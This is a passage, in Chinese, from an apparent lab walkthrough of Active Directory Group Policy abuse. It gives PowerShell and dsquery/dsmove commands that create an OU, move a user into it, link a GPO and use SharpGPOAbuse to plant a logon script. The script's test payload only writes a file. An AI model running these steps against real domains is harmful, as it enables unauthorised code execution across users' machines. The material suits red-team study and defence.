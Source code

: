 #### (6)删除GPO

Powershell命令：`Remove-GPO -Name TestGPO1`

### 2.作用于指定目标

#### (1)创建OU

Powershell命令：`New-ADOrganizationalUnit -Name OUtest2 -Path "DC=test,DC=com"`

#### (2)确认用户test1的位置

cmd命令：`dsquery user -name test1`

返回结果：

```
"CN=test1,CN=Users,DC=test,DC=com"
```

#### (3)将指定用户test1移动至新创建的`OUtest2`

cmd命令：`dsmove "CN=test1,CN=Users,DC=test,DC=com" -newparent "OU=OUtest2,DC=test,DC=com"`

也可以使用cmd命令：`dsquery user -name test1 | dsmove -newparent "OU=OUtest2,DC=test,DC=com"`

#### (4)创建一个GPO并将其连接到指定OU

Powershell命令：`new-gpo -name TestGPO2 | new-gplink -Target "OU=OUtest2,DC=test,DC=com"`

#### (5)通过[SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)设置执行的脚本

命令示例：`SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "cmd.exe /c echo 1 > c:\GPOAbuse2.txt" --GPOName "TestGPO2"`

#### (6)等待域组策略更新

默认情况下，域组策略每90分钟更新，随机偏移为0-30分钟

#### (7)等待触发脚本执行

#### (8)删除GPO

Powershell命令：`Remove-GPO -Name TestGPO2`

#### (9)将用户test1移除OU至原位置

cmd命令：`dsquery user -name test1 | dsmove -newparent "CN=Users,DC=test,DC=com"`

#### (10)删除OU

Powershell命令：

```
Set-ADOrganizationalUnit -Identity "OU=OUtest2,DC=test,DC=com" -ProtectedFromAccidentalDeletion $false
Remove-ADOrganizationalUnit -Identity "OU=OUtest2,DC=test,DC=com" -Recursive -Confirm:$False
```
